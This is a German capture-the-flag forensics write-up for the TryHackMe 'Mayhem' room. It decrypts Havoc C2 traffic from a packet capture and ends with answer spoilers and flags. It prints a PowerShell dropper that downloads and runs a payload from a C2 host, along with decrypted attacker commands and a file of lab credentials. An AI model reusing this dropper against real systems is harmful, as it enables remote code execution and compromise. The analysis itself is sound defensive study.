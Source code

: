 ```yaml
---
description: https://tryhackme.com/room/mayhemroom
---
```


# Mayhem

### Einleitung und initiale Untersuchung

Es wird eine .zip-Datei (evidence-1700022726858.zip) bereitgestellt. Darin befindet sich ein Wireshark-Packet-Capture (traffic.pcapng).

<figure><img src="../../../.gitbook/assets/grafik (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Die meisten Daten werden über die Protokolle HTTP und TCP zwischen einem Client (10.0.2.37) und einem python-HTTP-Server (10.0.2.38).

Während der Kommunikation kann man die Übertragung der Dateien _install.ps1_ und _notepad.exe_ von Server auf Client sehen.

<figure><img src="../../../.gitbook/assets/grafik (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Anfrage und Übertragung install.ps1</p></figcaption></figure>

***

### Untersuchung install.ps1

Der Powershell-Skript scheint ein Dropper für Malware zu sein, der eine Datei von einem C2-Server lädt und darauffolgend ausführt.

{% code lineNumbers="true" %}
```powershell
// Die URL auf den C2-Server
$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";

// Der Zielpfad auf dem zu infizierenden System
$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";

// Download der Datei "notepad.exe" und speichern unter dem Zielpfad
Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;

// Redundanter Download, gleiche Funktion wie in Zeile 8
$65lmAtnzW8 = New-Object System.Net.WebClient;
$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);

// Starten der heruntergeladenen Datei im Zielpfad
Start-Process -Filepath $LA4rJgSPpx
```
{% endcode %}

Beide Downloads können auch im Capture gesehen werden (TCP-Stream 3 und TCP-Stream 4)

<figure><img src="../../../.gitbook/assets/grafik (2) (1) (1) (1) (1).png" alt=""><figcaption><p>Download mit Invoke-WebRequest (Stream 3)</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/grafik (3) (1) (1) (1).png" alt=""><figcaption><p>Download mit New-Object System.Net.WebClient (Stream 4)</p></figcaption></figure>

***

### Untersuchung notepad.exe

Die übertragene Datei _notepad.exe_ hat eine Größe von **95 kB** und kann über den Objekt-Export von Wireshark heruntergeladen werden.

<figure><img src="../../../.gitbook/assets/grafik (5) (1).png" alt=""><figcaption><p>Objekt-Export (HTTP)</p></figcaption></figure>

Da davon auszugehen ist, dass es sich um Malware und nicht um ein legitimes Programm handelt, wurde die Datei bei virustotal.com eingereicht.\
Das Ergebnis gibt der Annahme recht, da es von **60/72** Anbietern als schädlich markiert wurde.

<figure><img src="../../../.gitbook/assets/grafik (6) (1).png" alt=""><figcaption><p>Auswertung virustotal</p></figcaption></figure>

Es scheint sich um einen Teil des C2-Frameworks Havoc zu handeln. Nach weitergehender Untersuchung des aufgezeichneten Datenverkehrs kann ein sich wiederholendes Anfragen/Antwort-Muster festgestellt werden, was auf C2-Beaconing hindeutet. [#struktur-eines-c2-frameworks](../../../red-team/c2-command-and-control.md#struktur-eines-c2-frameworks "mention")

<figure><img src="../../../.gitbook/assets/grafik (7) (1).png" alt=""><figcaption><p>C2-Beacon-Verhalten</p></figcaption></figure>

Ebenso gibt es auch Datenverkehr zwischen den Systemen, der allerdings verschlüsselt ist.

<figure><img src="../../../.gitbook/assets/grafik (8) (1).png" alt=""><figcaption><p>Verschlüsselter Datenverkehr</p></figcaption></figure>

***

### Recherche und Entschlüsselung Datenverkehr

Das Havoc-Framework ist als öffentliches Projekt in Github einsehbar. [https://github.com/HavocFramework/Havoc](https://github.com/HavocFramework/Havoc). \
Ebenso gibt es einen von Immersivelabs bereitgestellten Guide, der dieses Framework inkl. Aufbau und Kommunikation untersucht. [https://www.immersivelabs.com/resources/blog/havoc-c2-framework-a-defensive-operators-guide](https://www.immersivelabs.com/resources/blog/havoc-c2-framework-a-defensive-operators-guide).

Die Kommunikation eines Havoc-Agenten kann durch die Magic-Bytes _DE AD BE EF_ (deadbeef) identifiziert werden, was auch im TCP-Stream zu sehen ist.

Ebenso sind Bytes für Länge der Nachricht und ID des sendenen Agenten sowie AES- und AES-IV-Encryption-Keys enthalten.

<figure><img src="../../../.gitbook/assets/grafik (9) (1).png" alt=""><figcaption></figcaption></figure>

Immersivelabs hat für die Untersuchung des Havoc-C2 ein Github-Repository erstellt. [https://github.com/Immersive-Labs-Sec/HavocC2-Forensics](https://github.com/Immersive-Labs-Sec/HavocC2-Forensics)

### Todo: Rewrite HavocC2.py & test tshark-versionen (Packet decrypt)

Durch Verwendung von PacketCapture/havoc-pcap-parser.py konnten die verwendeten AES-Keys extrahiert werden. Die Verschlüsselungsmethode ist **AES256** und der verwendete Modus **CTR**.

```python
(PacketCapture) python3 havoc-pcap-parser.py --pcap traffic.pcapng
[+] Found Havoc C2
  [-] Agent ID: 0e9fb7d8
  [-] Magic Bytes: deadbeef
  [-] C2 Address: http://10.0.2.37/
  [+] Found AES Key
    [-] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [-] IV: 8cd00c3e349290565aaa5a8c3aacd430
```

***

### Entschlüsselung in CyberChef

Zur Dekodierung kommt CyberChef [https://gchq.github.io](https://gchq.github.io/CyberChef) zum Einsatz. Beim ersten Einfügen von Nutzdaten und dem ermittelten Schlüssel ist der Output noch nicht lesbar. Durch das Entfernen der vorderen **40 Bytes** (in der Abbildung markiert) konnten die Daten lesbar gemacht werden.

<figure><img src="../../../.gitbook/assets/grafik (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Dekodierung übertragener Daten</p></figcaption></figure>

Im Folgenden werden alle relevanten, übertragenen und entschlüsselten Nachrichten aufgeführt. Der Titel jeder Nachricht besteht aus **Capture-Nr.**, **Größe** und den **entfernten vorangehenden Bytes**.

***

<details>

<summary>No. 182 -> 279 Bytes -136 Byte</summary>

```
·ØWIN-9H86M71MBE9pacoclientserver.thm10.0.2.38FC:\Users\paco\Downloads\notepad.exeäöZî
Ec
```

</details>

<details>

<summary>No. 239 -> 5781 Bytes -40 Byte</summary>

```
UserName		SID
====================== ====================================
CLIENTSERVER\paco	S-1-5-21-679395392-3966376528-1349639417-1103


GROUP INFORMATION                                 Type                     SID                                          Attributes               
================================================= ===================== ============================================= ==================================================
CLIENTSERVER\Domain Users                         Group                    S-1-5-21-679395392-3966376528-1349639417-513  Mandatory group, Enabled by default, Enabled group, 
Everyone                                          Well-known group         S-1-1-0                                       Mandatory group, Enabled by default, Enabled group, 
BUILTIN\Administrators                            Alias                    S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner, 
BUILTIN\Users                                     Alias                    S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group, 
BUILTIN\Pre-Windows 2000 Compatible Access        Alias                    S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\INTERACTIVE                          Well-known group         S-1-5-4                                       Mandatory group, Enabled by default, Enabled group, 
CONSOLE LOGON                                     Well-known group         S-1-2-1                                       Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\Authenticated Users                  Well-known group         S-1-5-11                                      Mandatory group, Enabled by default, Enabled group, 
NT AUTHORITY\This Organization                    Well-known group         S-1-5-15                                      Mandatory group, Enabled by default, Enabled group, 
LOCAL                                             Well-known group         S-1-2-0                                       Mandatory group, Enabled by default, Enabled group, 
Authentication authority asserted identity        Well-known group         S-1-18-1                                      Mandatory group, Enabled by default, Enabled group, 
Mandatory Label\High Mandatory Level              Label                    S-1-16-12288                                  Mandatory group, Enabled by default, Enabled group, 


Privilege Name                Description                                       State                         
============================= ================================================= ===========================
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process                Disabled                      
SeMachineAccountPrivilege     Add workstations to domain                        Disabled                      
SeSecurityPrivilege           Manage auditing and security log                  Disabled                      
SeTakeOwnershipPrivilege      Take ownership of files or other objects          Disabled                      
SeLoadDriverPrivilege         Load and unload device drivers                    Disabled                      
SeSystemProfilePrivilege      Profile system performance                        Disabled                      
SeSystemtimePrivilege         Change the system time                            Disabled                      
SeProfileSingleProcessPrivilegeProfile single process                            Disabled                      
SeIncreaseBasePriorityPrivilegeIncrease scheduling priority                      Disabled                      
SeCreatePagefilePrivilege     Create a pagefile                                 Disabled                      
SeBackupPrivilege             Back up files and directories                     Disabled                      
SeRestorePrivilege            Restore files and directories                     Disabled                      
SeShutdownPrivilege           Shut down the system                              Disabled                      
SeDebugPrivilege              Debug programs                                    Enabled                       
SeSystemEnvironmentPrivilege  Modify firmware environment values                Disabled                      
SeChangeNotifyPrivilege       Bypass traverse checking                          Enabled                       
SeRemoteShutdownPrivilege     Force shutdown from a remote system               Disabled                      
SeUndockPrivilege             Remove computer from docking station              Disabled                      
SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegationDisabled                      
SeManageVolumePrivilege       Perform volume maintenance tasks                  Disabled                      
SeImpersonatePrivilege        Impersonate a client after authentication         Enabled                       
SeCreateGlobalPrivilege       Create global objects                             Enabled                       
SeIncreaseWorkingSetPrivilege Increase a process working set                    Disabled                      
SeTimeZonePrivilege           Change the time zone                              Disabled                      
SeCreateSymbolicLinkPrivilege Create symbolic links                             Disabled                      
SeDelegateSessionUserImpersonatePrivilegeObtain an impersonation token for another user in the same sessionDisabled
```

</details>

<details>

<summary>No. 269 -> 110 Bytes -40 Byte</summary>

```
ºÃÐ)N6c:\windows\system32\cmd.exe
```

</details>

<details>

<summary>No. 274 -> 380 Bytes -40 Byte</summary>

```
ZºÃÐ)LH
Windows IP Configuration

Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : home
   Link-local IPv6 Address . . . . . : fe80::e134:1b0c:c8d5:3020%6
   IPv4 Address. . . . . . . . . . . : 10.0.2.38
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.0.2.1
ºÃÐ)
```

</details>

<details>

<summary>No. 304 -> 110 Byte -40 Byte</summary>

```
É£ßN6c:\windows\system32\cmd.exep
```

</details>

<details>

<summary>No. 314 -> 2339 Byte -40 Byte</summary>

```
ZÉ£ßóï
Host Name:                 WIN-9H86M71MBE9
OS Name:                   Microsoft Windows Server 2019 Standard Evaluation
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00431-10000-00000-AA311
Original Install Date:     11/14/2023, 7:36:09 PM
System Boot Time:          11/14/2023, 7:55:55 PM
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 158 Stepping 13 GenuineIntel ~3600 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     8,192 MB
Available Physical Memory: 6,352 MB
Virtual Memory: Max Size:  10,112 MB
Virtual Memory: Available: 8,376 MB
Virtual Memory: In Use:    1,736 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    clientserver.thm
Logon Server:              \\WIN-9H86M71MBE9
Hotfix(s):                 3 Hotfix(s) Installed.
                           [01]: KB5020627
                           [02]: KB5019966
                           [03]: KB5020374
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Desktop Adapter
                                 Connection Name: Ethernet
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.0.2.3
                                 IP address(es)
                                 [01]: 10.0.2.38
                                 [02]: fe80::e134:1b0c:c8d5:3020
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
É£ß
```

</details>

<details>

<summary>No. 336 -> 110 Byte -40 Byte</summary>

```
Þ?[N6c:\windows\system32\cmd.exe°
```

</details>

<details>

<summary>No. 341 -> 94 Byte -40 Byte</summary>

```
ZÞ?[-)THM{HavOc_C2_DeCRypTing_is_Fun_Fun_FUN}
Þ?[
```

</details>

<details>

<summary>No. 381 -> 110 Byte -40 Byte</summary>

```
4^ÐùN6c:\windows\system32\cmd.exeÄ
```

</details>

<details>

<summary>No. 386 -> 91 Byte -40 Byte</summary>

```
Z4^Ðù+'The command completed successfully.

4^Ðù
```

</details>

<details>

<summary>No. 473 -> 110 Byte -40 Byte</summary>

```
ÞË©PN6c:\windows\system32\cmd.exe¤
```

</details>

<details>

<summary>No. 478 -> 91 Byte -40 Byte</summary>

```
ZÞË©P+'The command completed successfully.

ÞË©P
```

</details>

<details>

<summary>No. 545 -> 110 Byte -40 Byte</summary>

```
àüEN6c:\windows\system32\cmd.exe
```

</details>

<details>

<summary>No. 550 -> 393 Byte -40 Byte</summary>

```
ZàüEYU Volume in drive C has no label.
 Volume Serial Number is D284-F445

 Directory of C:\Users\paco\Desktop

11/14/2023  08:12 PM    <DIR>          .
11/14/2023  08:12 PM    <DIR>          ..
11/14/2023  08:04 PM    <DIR>          Files
               0 File(s)              0 bytes
               3 Dir(s)  94,010,191,872 bytes free
àüE
```

</details>

<details>

<summary>No. 575 -> 110 Byte -40 Byte</summary>

```
Ö^N6c:\windows\system32\cmd.exeä
```

</details>

<details>

<summary>No. 580 -> 405 Byte -40 Byte</summary>

```
Z֚^ea Volume in drive C has no label.
 Volume Serial Number is D284-F445

 Directory of C:\Users\paco\Desktop\Files

11/14/2023  08:14 PM    <DIR>          .
11/14/2023  08:14 PM    <DIR>          ..
11/14/2023  08:14 PM               555 clients.csv
               1 File(s)            555 bytes
               2 Dir(s)  94,010,060,800 bytes free
֚^
```

</details>

<details>

<summary>No. 605 -> 110 Byte -40 Byte</summary>

```
¦òçN6c:\windows\system32\cmd.exe
```

</details>

<details>

<summary>No. 610 -> 607 Byte -40 Byte</summary>

```
Z¦òç/+username,password,email
jchristophle0,gH5#g..mL,acox0@clientserver.thm
arother1,fT4&tf>i'c%4%,efishenden1@clientserver.thm
mstitcher2,mB8#jDp*O$Tv}?,ograal2@clientserver.thm
smcbayne3,cV3&uD9w.,rdeeble3@clientserver.thm
afearby4,zO8.dugy9dq,mhartridge4@clientserver.thm
jrowley5,"mE8#uZV48nU&Mc,5",wcumes5@clientserver.thm
fbillitteri6,"kX7`\@4#+{a5,",asnalham6@clientserver.thm
jpowers7,kK2/ix%2i8U6L$A,awarrack7@clientserver.thm
cpattinson8,wX4\ZmomV78GBRa+,kstickels8@clientserver.thm
wrait9,THM{I_Can_SEE_ThE_fiL3_YoU_ToOk},fgoodall9@clientserver.thm
¦òç
```

</details>

***

### TryHackme Antworten (Spoiler)

1. What is the SID of the user that the attacker is executing everything under?

```
S-1-5-21-679395392-3966376528-1349639417-1103
```

2. What is the Link-local IPv6 Address of the server? Enter the answer exactly as you see it.

```
fe80::e134:1b0c:c8d5:3020%6
```

3. The attacker printed a flag for us to see. What is that flag?

```
THM{HavOc_C2_DeCRypTing_is_Fun_Fun_FUN}
```

4. The attacker added a new account as a persistence mechanism. What is the username and password of that account? Format is username:password

```
```

5. The attacker found an important file on the server. What is the full path of that file?

```
C:\Users\paco\Desktop\Files\clients.csv
```

6. What is the flag found inside the file from question 5?

```
THM{I_Can_SEE_ThE_fiL3_YoU_ToOk}
```
